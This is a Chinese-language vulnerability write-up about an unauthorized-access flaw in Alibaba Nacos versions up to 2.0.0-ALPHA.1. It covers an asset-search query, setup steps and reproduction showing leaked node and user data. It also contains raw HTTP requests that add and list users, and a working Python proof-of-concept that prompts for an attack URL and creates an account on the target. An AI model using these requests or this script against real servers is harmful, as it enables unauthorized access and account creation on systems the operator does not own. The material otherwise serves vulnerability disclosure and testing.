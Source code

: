 # 

# Alibaba Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

```
Nacos <= 2.0.0-ALPHA.1
```

## 网络测绘

```
title="Nacos"
```

## 环境搭建

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```



然后访问 http://xxx.xxx.xxx.xxx:8848/nacos 即可，默认账号密码 **nacos/nacos**

![](./images/202202102003931.png)



## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论



https://github.com/alibaba/nacos/issues/1105



![2](./images/202202102003894.png)

![3](./images/202202102003898.png)



这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问



![](./images/202202102004781.png)



这里的请求url简化为



http://xxx.xxx.xxx.xxx:8848/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=



退出用户后在前台访问这个 url



![](./images/202202102004013.png)



可以发现以及泄露了 **ip节点** 等数据



同样我们查看用户列表的请求并在前台访问



http://xxx.xxx.xxx.xxx:8848/nacos/v1/auth/users?pageNo=1&pageSize=9



![6](./images/202202102004595.png)

![7](./images/202202102004600.png)



这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息



我们尝试创建用户并抓包



![](./images/202202102004325.png)



返回下列创建成功



```plain
{"code":200,"message":"create user ok!","data":null}
```



同样的我们简化请求



```plain
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```



![9](./images/202202102004662.png)

![10](./images/202202102004665.png)



看到有文章说要加上**User-Agent请求头**



```plain
User-Agent: Nacos-Server
```



但是大量测试之后发现好像是无关紧要的，没有请求头同样可以创建用户

- 同样的原理也可以用于修改密码添加配置等

## 漏洞POC

```
# 添加用户
POST /nacos/v1/auth/users HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/
*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

username=aaaa&password=bbbb
```

```
# 查看用户
GET /nacos/v1/auth/users?pageNo=1&pageSize=100 HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;
q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
```

- 注意下大部分企业的 nacos的url为 /v1/auth/users ，而不是  /nacos/v1/auth/users
- 可以按目标情况自行修改

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Nacos <= 2.0.0-ALPHA.1                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    # vuln_url = target_url + "/nacos/v1/auth/users"
    vuln_url = target_url + "/v1/auth/users"
    headers = {
        "User-Agent": "Nacos-Server",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    number = random.randint(0,999)
    data = "username=peiqi{}&password=peiqi".format(str(number))
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/nacos/v1/auth/users \033[0m".format(target_url))
        if "create user ok!" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 成功创建账户 peiqi{} peiqi\033[0m".format(str(number)))
        else:
            print("\033[31m[x] 创建用户请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](./images/202202102004659.png)



